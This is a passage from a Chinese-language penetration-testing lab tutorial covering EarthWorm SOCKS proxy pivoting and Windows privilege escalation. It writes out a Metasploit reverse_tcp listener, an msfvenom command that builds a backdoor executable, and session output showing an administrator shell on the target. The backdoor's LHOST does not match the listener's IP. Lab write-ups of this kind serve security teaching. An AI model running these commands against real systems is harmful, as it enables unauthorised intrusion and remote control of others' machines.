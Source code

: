[EarthWorm](https://github.com/idlefire/ew) 是一款用于开启 SOCKS v5 代理服务的工具，基于标准 C 开发，可提供多平台间的转接通信，用于复杂网络环境下的数据转发。

它的常用命令如下：

```
# 在目标机器中开启SOCKS代理
ew -s ssocksd -l 888
# 在跳板机上执行如下命令实现数据透传到目标机器上，即将1080端口数据转发到目标IP的888端口上
ew -s lcx_tran -l 1080 -f {目标机器IP} -g 888
```

### 权限提升

有时我们利用 Web 漏洞拿到的系统权限是有限制的，为了获取更高的权限，我们就常常使用一些提权的利用方法来实现，下面介绍几种在 Windows 平台下比较常用的提权方法。

> 补充：为方便本地虚拟机与主机互联测试，我修改了原靶场虚拟机的 IP 地址，将192.168.52.xx 都更改为 192.168.69.xx。

#### 1.利用系统/软件漏洞提权

操作系统本身也有一些漏洞，特别是内核漏洞，常常用来帮助攻击者拿到更高的权限。还有一些拥有驱动程序的软件，比如杀毒软件，这些软件的权限都比较高，如果存在漏洞被利用，也可用于提权。

下面以靶场为例来实践练习下，先在攻击者本地开启监听端口，以等待后门回连：

```
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST 192.168.69.1 ＃攻击者IP
LHOST => 192.168.69.1
msf5 exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf5 exploit(multi/handler) > exploit
[*] Started reverse TCP handler on 192.168.69.1:4444
```

然后生成回连后门程序 shell.exe，上传到目标服务器（已获得 webshell 的服务器）并运行：

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.52.133 LPORT=443 -f exe -o shell.exe
```

利用成功后获得系统 shell 权限：

```
msf5 exploit(multi/handler) > exploit
[*] Started reverse TCP handler on 192.168.69.1:4444 
[*] Sending stage (176195 bytes) to 192.168.69.143
[*] Meterpreter session 1 opened (192.168.69.1:4444 -> 192.168.69.143:32552) at 2021-01-24 20:55:13 +080
meterpreter > shell
Process 2364 created.
Channel 1 created.
Microsoft Windows [�汾 6.1.7601]
��Ȩ���� (c) 2009 Microsoft Corporation����������Ȩ����
C:\Users\Administrator\Desktop>whoami
whoami
god\administrator
C:\Users\Administrator\Desktop>exit
exit
meterpreter > getuid
Server username: GOD\Administrator
meterpreter > background
[*] Backgrounding session 1...
```
